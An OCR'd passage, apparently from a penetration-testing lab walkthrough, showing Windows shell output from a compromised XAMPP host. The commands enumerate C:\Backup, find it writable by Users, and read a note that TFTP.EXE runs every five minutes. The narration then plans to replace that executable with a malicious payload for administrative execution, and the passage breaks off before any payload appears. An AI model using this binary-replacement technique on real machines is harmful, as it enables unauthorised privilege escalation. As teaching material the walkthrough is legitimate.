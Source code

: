 ```bash
C:\xampp\htdocs\site>cd C:\\
cd C:\\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\

06/12/2020  07:45 AM    <DIR>          Backup
06/12/2020  07:34 AM    <DIR>          PerfLogs
06/12/2020  06:55 AM    <DIR>          Program Files
10/06/2019  07:52 PM    <DIR>          Program Files (x86)
06/12/2020  07:02 AM    <DIR>          Users
06/12/2020  07:41 AM    <DIR>          Windows
06/12/2020  08:11 AM    <DIR>          xampp
               0 File(s)              0 bytes
               7 Dir(s)  28,603,662,336 bytes free

C:\>icacls Backup
icacls Backup
Backup BUILTIN\Users:(OI)(CI)(F)
       BUILTIN\Administrators:(I)(OI)(CI)(F)
       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
       BUILTIN\Users:(I)(OI)(CI)(RX)
       NT AUTHORITY\Authenticated Users:(I)(M)
       NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

Successfully processed 1 files; Failed processing 0 files

C:\>
In addition, we find an interesting file C://Backup/info.txt that contains information about a scheduled task.

C:\>cd Backup && dir
cd Backup && dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

06/12/2020  07:45 AM    <DIR>          .
06/12/2020  07:45 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/12/2020  07:45 AM            26,112 TFTP.EXE
               3 File(s)         37,489 bytes
               2 Dir(s)  28,603,658,240 bytes free

C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
C:\Backup>
According to this text file, TFTP.EXE is run every five minutes. Although we don’t know for sure if this is true, it’s worth investigating since the executable is likely run as an administrative task.

Swapping the Executable
Let’s try to replace TFTP.EXE with a malicious executable. First, we’ll create our payload.

┌──(kali㉿kali)-[~]
```